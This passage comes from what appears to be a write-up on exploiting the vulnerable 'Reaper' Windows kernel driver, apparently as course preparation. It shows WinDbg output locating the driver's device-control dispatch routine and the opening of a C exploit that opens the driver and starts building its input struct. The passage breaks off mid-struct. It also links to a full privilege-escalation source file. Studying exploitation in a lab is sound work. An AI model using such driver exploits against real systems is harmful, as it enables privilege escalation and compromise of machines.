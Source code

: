 I checked in **Windbg** that the driver was now loaded in to kernel space:

```
lm l
start             end                 module name
...            
fffff800`74290000 fffff800`74297000   reaper     (deferred)
...
```

And here is the dispatch routine I was reverse engineering:

```
!drvobj \Driver\Reaper 2
Driver object (ffffe384deeb8850) is for:
 \Driver\Reaper

DriverEntry:   fffff80074295000	reaper
DriverStartIo: 00000000	
DriverUnload:  fffff80074291190	reaper
AddDevice:     00000000	

Dispatch routines:
...
[0e] IRP_MJ_DEVICE_CONTROL              fffff80074291020	reaper+0x1020
```

I started writing an exploit. I've written some basic kernel exploits based on `HEVD` but nothing too complicated. This is how I started out:

```c
int main()
{
    HANDLE hDevice = CreateFileA(REAPER_SYM_LINK, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED, NULL);

    // if CreateFileA fails the handle will be -0x1
    if (hDevice == (HANDLE)-0x1)
    {
        // could not get a handle to the driver
        printf("[+] Driver handle: 0x%p\n", hDevice);
        printf("[!] Unable to get a handle to the driver.\n");
        return 1;
    }
    else
    {
        // create the input data for the write
        ReaperData userData;

        userData.Magic = 0x6a55cc9e;
        userData.ThreadId = GetCurrentThreadId();
        userData.Priority = 0;
        userData.SrcAddress = NULL;
        userData.DstAddress = NULL;
```


[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"